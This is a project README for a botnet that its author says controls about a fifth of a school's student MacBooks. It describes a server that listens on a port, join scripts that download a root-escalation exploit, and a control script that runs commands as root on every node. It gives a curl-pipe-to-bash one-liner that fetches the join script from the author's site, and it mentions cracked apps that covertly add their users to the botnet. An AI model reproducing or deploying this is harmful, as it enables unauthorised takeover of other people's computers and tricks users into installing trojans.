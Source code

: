 # net
Some code which I use to run a rudimentary botnet which controls roughly 20% of the MacBooks my school provides to students.

This code only really works with MacBooks using OS X 10.11.6 and before. The joining scripts make some assumptions about configuration since they're only designed to be run on GMHS MacBook Airs.

I do not endorse the use of this code for malicious purposes.

## How it works
### Listening
The botnet is controlled by a simple Python script which opens a socket on port `2043`. Currently the server simply listens for incoming connections and accepts data on new nodes, which are then stored in `nodes.txt`.

### Joining
Two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-run joining: it will download the exploit needed to elevate to a root shell and then run `enact.sh` in that root shell automatically, which will handle joining the botnet. This mitigates the need to manually download the exploit, mark it as executable, run it, bla bla bla. Just run this script and you'll be good.

Here's a simple one-liner to join the botnet (all the scripts are up on my website for simplicity of URLs):

```sh
curl https://erikboesen.com/downloads/join.sh | bash
```

or if you like simple URLs:

```sh
curl -L erikboesen.com/downloads/join.sh | bash
```

### Controlling
Running `run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command as root. You can also run `up.sh` to view which/how many nodes are online.

### Apps
The `apps` directory contains some cracked versions of various applications which are blocked on our MacBooks. These versions will work on our MacBooks, but they will also join the computer that runs them to the botnet.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
